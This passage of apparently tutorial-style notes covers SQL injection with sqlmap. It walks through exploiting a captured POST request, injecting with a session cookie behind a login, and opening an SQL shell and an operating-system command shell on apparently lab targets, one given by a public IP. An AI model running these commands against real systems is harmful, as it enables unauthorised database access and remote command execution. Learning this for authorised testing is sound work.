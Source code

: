 ![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/ab8bfe3d-dace-471d-8eed-c8ce1c2e81fc/Untitled.png)

-data switch to exploit this `POST-based` scenario

Another way of exploiting this is by `capturing the POST request` and manually specifying the parameter

`./sqlmap.py -r packt-demo-post.txt -p uname`

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/062f2a7a-5509-42a2-b6f2-03b82cdaf285/Untitled.png)

---

# `SQL injection inside a login-based portal`

Example post-login URL: [http://admin.example.com/portal/names?id=1](http://admin.example.com/portal/names?id=1)

Using SQLMap (with cookies):  -cookie, which takes the `HTTP cookie as input`—here we can provide the session cookie for the user and then supply the injection through SQLMap

`./sqlmap.py --cookie="PHPSESSID=asafa76asfujaf8ajsfj26h6" –u "http://[admin.example.com/portal/names?id=1](http://admin.example.com/portal/names?id=1)"`

# `SQL shell`

The SQL shell basically invokes the `built-in SQL interactive` interpreter and it is presented in such a way that it feels like interacting with a database SQL utility.

Let's check this out as follows:
`./sqlmap.py -u [http://192.168.50.2/Less-1/?id=2](http://192.168.50.2/Less-1/?id=2) --sql-shell`

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/34766bd8-fd45-4af5-95cd-cdb999bce2e1/Untitled.png)

Since typically most SQL injection issues are based on `SELECT` queries, the SQL shell might not work with other type of options like
`INSERT`, `UPDATE` and so on, unless there is a suitable type of injection available such as the stacked query.

---

# `Command shell`

Let's try this out as follows:
`./sqlmap.py -u [http://107.170.95.147/Less-1/?id=1](http://107.170.95.147/Less-1/?id=1) --os-shell`

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/d61c4182-f068-475a-a773-dfe866e172a7/Untitled.png)

`./sqlmap.py -u [http://107.170.95.147/Less-1/?id=1](http://107.170.95.147/Less-1/?id=1) --os-cmd "uname -a"`
